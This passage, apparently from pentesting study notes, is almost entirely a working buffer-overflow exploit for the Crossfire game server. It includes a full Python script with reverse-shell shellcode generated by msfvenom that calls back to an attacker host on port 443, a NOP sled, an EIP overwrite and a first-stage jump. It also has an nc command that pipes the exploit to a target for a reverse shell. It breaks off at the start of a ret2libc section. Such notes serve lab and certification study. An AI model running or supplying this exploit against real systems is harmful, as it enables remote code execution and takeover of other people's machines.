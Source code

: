 ```bash
f.close()


# We execute the binary and get a revshell. Now we try it on the target:
└─$ cat exploit.txt - | nc 192.168.195.52 5000


# Final script (Crossfire example)
#!/usr/bin/python

import socket

host = "10.11.0.128"

nop_sled = "\x90" * 8  # NOP sled

# msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -b "\x00\x20" -f py

shellcode =  ""
shellcode += "\xbe\x35\x9e\xa3\x7d\xd9\xe8\xd9\x74\x24\xf4\x5a\x29"
shellcode += "\xc9\xb1\x12\x31\x72\x12\x83\xc2\x04\x03\x47\x90\x41"
shellcode += "\x88\x96\x77\x72\x90\x8b\xc4\x2e\x3d\x29\x42\x31\x71"
shellcode += "\x4b\x99\x32\xe1\xca\x91\x0c\xcb\x6c\x98\x0b\x2a\x04"
shellcode += "\xb7\xfc\xb8\x46\xaf\xfe\x40\x67\x8b\x76\xa1\xd7\x8d"
shellcode += "\xd8\x73\x44\xe1\xda\xfa\x8b\xc8\x5d\xae\x23\xbd\x72"
shellcode += "\x3c\xdb\x29\xa2\xed\x79\xc3\x35\x12\x2f\x40\xcf\x34"
shellcode += "\x7f\x6d\x02\x36"

padding = "\x41" * (4368 - len(nop_sled) - len(shellcode))
eip = "\x96\x45\x13\x08"  # 0x08134596
first_stage = "\x83\xc0\x0c\xff\xe0\x90\x90"

buffer = "\x11(setup sound " + nop_sled + shellcode + padding + eip + first_stage + "\x90\x00#"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."

s.connect((host, 13327))
print s.recv(1024)

s.send(buffer)
s.close()

print "[*]Payload Sent !"
```
{% endcode %}
{% endtab %}

{% tab title="ret2libc" %}
{% hint style="info" %}
If `cat /proc/sys/kernel/randomize_va_space` > 0, do
